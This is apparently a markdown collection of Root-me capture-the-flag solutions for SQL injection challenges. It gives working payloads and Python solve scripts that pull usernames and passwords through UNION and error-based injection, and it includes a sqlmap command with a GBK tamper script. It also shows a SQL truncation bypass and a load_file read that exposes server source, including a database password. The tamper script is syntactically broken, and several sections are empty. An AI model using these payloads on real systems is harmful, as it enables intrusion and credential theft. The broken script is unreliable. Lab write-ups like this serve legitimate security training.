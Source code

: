# Root-me 

**[+] SQL injection - Authentication**
Retrieve admin's password
Payload: 

```
username: admin';order by 1 asc--
password: random
```

----

**[+] SQL injection - Authentication - GBK**

```bash
sqlmapp -u 'http://challenge01.root-me.org/web-serveur/ch42/' --data="login=admin*&password=123" --thread 10 --level 5 --risk 3 --encoding=GBK --dbs -v 3 --tamper=gbk.py --technique="B"
```

```python
# gbk.py
from lib.core.data import kb
from lib.core.enums import PRIORITY
import random

__priority__=PRIORITY.NORMAL
GBK_Prefix = ['%ef','%df','%bf','%a8','%8c']

def dependencies():
    pass

def tamper(payload, **kwargs):
    global GBK_Prefix
    retVal = ""
    if payload:
        first = False
        for i in payload
            payload = GBK_Prefix[random.randint(0,4)]
            if i == "'" and not first:
                retVal += GBK_Payload + "'"
                first = True
            elif i == '"' and not first:
                retVal += GBK_Payload + '"'
                first = True
            elif i == '`' and not first:
                retVal += GBK_Payload + '`'
                first = True 
            else:
                retVal += i
     
```

Or can use payload `尐' or 1=1-- -`

---

**[+] SQL injection - String**

``` python
#solve.py
import requests

session = requests.session()
url = 'http://challenge01.root-me.org/web-serveur/ch19/?action=recherche'

# retrieve tables: select sql from sqlite_master;--
payload = "'UNION SELECT null,username||password FROM users--"
data = {'recherche':payload}
r = session.post(url, data=data)
print(r.text)
```

---

**[+] SQL injection - Numeric**

``` python
#solve.py
import requests

session = requests.session()
url = 'http://challenge01.root-me.org:80/web-serveur/ch18/?action=news&news_id=1'
payload = ' union select 1,username,password from users--'

r = session.get(url+payload)
print(r.text)
```

---

**[+] SQL injection - Routed**

``` python
import requests

url = 'http://challenge01.root-me.org/web-serveur/ch49/index.php'
params = {'action':'search'}

#[+] retrieve table name
# payload = "' UNION SELECT 0x" + ("' UNION SELECT 1,table_name from information_schema.tables where table_schema=database()-- -".encode('utf-8')).hex() + "-- -"
#[+] retrieve column name
# payload = "' UNION SELECT 0x" + ("' UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name='users'-- -".encode('utf-8')).hex() + "-- -"

payload = "' UNION SELECT 0x" + ("' UNION SELECT login,password FROM users WHERE email LIKE 'admin%'-- -".encode('utf-8')).hex() + "-- -"

data = {'login':payload}
r = requests.post(url, params=params, data=data)
print(r.text)
```



---

**[+] SQL Truncation**

Table struct in response

![image](https://user-images.githubusercontent.com/68894302/182137640-9d969c82-13dd-4939-9b14-b433e41a5b09.png)

We have 2 functions:

+ new user registration
+ Enter password to login admin panel

When registering as admin, there is a message that user already exists, which only allows 12 characters. There is no cleaning input here, so if you enter more than 12 characters, the 13th character onward will be cut off.

One way to bypass is to register the admin name along with empty characters (space) followed by arbitrary characters.

[+] login: `admin       charactersbecutoff`

[+]pass: 987654321

Then login with admin user with password: 987654321

![image](https://user-images.githubusercontent.com/68894302/182139392-8e67b31c-2786-44ec-baba-31066cdc6e2a.png)



---

**[+] SQL injection - Error**

``` python
import requests

url = 'http://challenge01.root-me.org/web-serveur/ch34/'

for i in range(100):
#	payload = 'ASC,cast((SELECT column_name from information_schema.columns limit 1 offset %d) as int)' %(i)
	payload = "ASC,cast((SELECT table_name FROM information_schema.tables limit 1 offset %s) as int)" %(i)
	params = {'action':'contents','order':payload}
	r = requests.get(url, params=params)
	print(r.text[442:]) 

payload = "ASC,cast((SELECT concat(us3rn4m3_c0l,p455w0rd_c0l) FROM m3mbr35t4bl3 limit 1) as int)"
params = {'action':'contents','order':payload}
r = requests.get(url, params=params)
print(r.text)
```



---

**[+] SQL injection - Insert**





---

**[+] SQL injection - File reading**

In this challenge we use function load_file(filename) to read file through the SELECT query of sql.

File we need to read is **`/challenge/web-serveur/ch31/index.php`** -> convert to hex: `0x2F6368616C6C656E67652F7765622D736572766575722F636833312F696E6465782E706870`

Query:

[+] `?action=members&id=-1+union+select+1,2,3,@@version--`

```
 ID : 1<br/>
 Username : 2<br/>
 Email : 10.3.34-MariaDB-0ubuntu0.20.04.1 <br/>

```

[+] `?action=members&id=-1+union+select+1,2,3,(select+table_name+from+information_schema.tables+where+table_schema=database())-- `

``` 
ID : 1<br/>
Username : 2<br/>
Email : member<br/>
```

[+] `?action=members&id=-1+union+select+1,2,3,(select+column_name+from+information_schema.columns+where+table_name=0x6D656D626572)--`

``` 
Subquery returns more than 1 row
```

[+] `?action=members&id=-1+union+select+1,2,3,(select+group_concat(column_name)+from+information_schema.columns+where+table_name=0x6D656D626572)--`

```
ID : 1<br/>
Username : 2<br/>
Email : member_id,member_login,member_password,member_email <br/>
```

[+]`?action=members&id=-1+union+select+1,2,3,(select+group_concat(member_id,0x20,member_login,0x20,member_password,0x20,member_email)+from+member)--`

```
ID : 1<br/>
Username : 2<br/>
Email : 1 admin VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA== admin@super-secure-webapp.org<br
```

[+] `?action=members&id=-1+union+select+1,2,3,(select+load_file(0x2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870))--`

``` php
<?php
define('SQL_HOST',      '/var/run/mysqld/mysqld3-web-serveur-ch31.sock');
define('SQL_DB',        'c_webserveur_31');
define('SQL_LOGIN',     'c_webserveur_31');
define('SQL_P',         'dOJLsrbyas3ZdrNqnhx');

function stringxor($o1, $o2) {
    $res = '';
    for($i=0;$i<strlen($o1);$i++)
        $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
    return $res;
}

$key = "c92fcd618967933ac463feb85ba00d5a7ae52842";
...
...
$pass = sha1($_POST['password']);
...
...
if($pass == stringxor($key, base64_decode($data['member_password']))){
   // authentication success
   print "<p>Authentication success !!</p>";
   if ($user == "admin")
      print "<p>Yeah !!! You're admin ! Use this password to complete this challenge.
```

stringxor($key,base64_decode('VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==)')

--> hash passwd 

From hash pass -> pass using decrypt sha1 algth

---

**[+] NoSQL injection - Blind**





---

**[+] SQL injection - Blind**





---

**[+] SQL injection - Time based**





---

**[+] SQL injection - Filter bypass**